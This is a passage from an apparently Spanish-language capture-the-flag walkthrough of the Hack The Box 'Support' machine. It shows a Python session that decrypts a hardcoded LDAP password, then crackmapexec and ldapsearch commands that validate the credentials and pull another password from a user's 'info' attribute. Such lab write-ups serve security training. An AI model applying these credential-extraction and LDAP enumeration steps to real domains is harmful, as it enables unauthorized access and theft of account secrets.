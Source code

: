 ```bash
➜  content python3
Python 3.11.8 (main, Feb  7 2024, 21:52:08) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
>>> key = bytes("armando", encoding='ascii')
>>> decoded_password = base64.b64decode(enc_password)
>>> decrypted_password = bytes([decoded_password[i] ^ key[i % len(key)] ^ 223 for i in range(len(decoded_password))])
>>> password = decrypted_password.decode('utf-8')
>>> print("Decrypted Password:", password)
Decrypted Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
>>>
```

## Shell as Support

- Una vez tenemos la contraseña en texto plano podemos comprobar si son correctas ya que nos decía que con el usuario `ldap` podemos conectarnos al servicio utilizando la contraseña.

```bash
➜  content crackmapexec ldap 10.129.245.29 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.129.245.29   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
LDAP        10.129.245.29   389    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

- Al ver que son correctas podemos enumerar el servicio `ldap` <https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap>.

- Al parecer el output es demasiada información pero si `grepeamos` por `info:` encontramos una contraseña.

```bash
➜  content ldapsearch -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep info:
info: Ironside47pleasure40Watchful
```

- Al parecer es del usuario `Support`.

```bash
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
```